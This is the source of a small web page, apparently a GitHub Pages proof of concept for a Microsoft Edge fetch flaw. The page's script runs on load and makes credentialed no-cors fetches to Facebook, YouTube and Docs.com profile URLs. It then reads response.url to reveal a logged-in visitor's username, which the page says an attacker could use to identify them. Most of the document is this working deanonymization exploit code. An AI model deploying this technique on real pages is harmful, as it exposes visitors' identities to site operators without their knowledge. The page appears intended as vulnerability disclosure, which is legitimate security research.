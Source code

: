 ```yaml
---
layout: default
title: Microsoft Edge Fetch Proof of Concept
---
```


# Microsoft Edge Fetch Proof of Concept

For the PoC to work, you must be browsing this with Microsoft Edge and be logged in one of the listed services.

<h3 id="Facebook">Facebook loading...</h3>
<h3 id="Youtube">Youtube loading...</h3>
<h3 id="Docs.com">Docs.com loading...</h3>
<h3 id="error"></h3>
If any of the above contains your username, an attacker could identify you by reading the username from the URL. All your public information on this page is also available to the attacker (for instance all your public Facebook details that can be found by browsing to the above URL).
<script>
function update(url, id)
{
    fetch(url, {
            mode: "no-cors",
            credentials: "include",
         }).then(function(response) {
                console.log(response);
                if (!response.url) {
                    document.getElementById("error").innerHTML = "Fetch does not leak URL (your browser is safe)";
                    document.getElementById(id).innerHTML = "";
                }
                else
                {
                    document.getElementById(id).innerHTML = id + ": " + response.url;
                }
            }).catch(function(error) {
                console.log("Failed with: ", error);
    });
}
window.onload = function() {
    update("https://facebook.com/me", "Facebook");
    update("https://youtube.com/profile", "Youtube");
    update("https://docs.com/me", "Docs.com");
}
</script>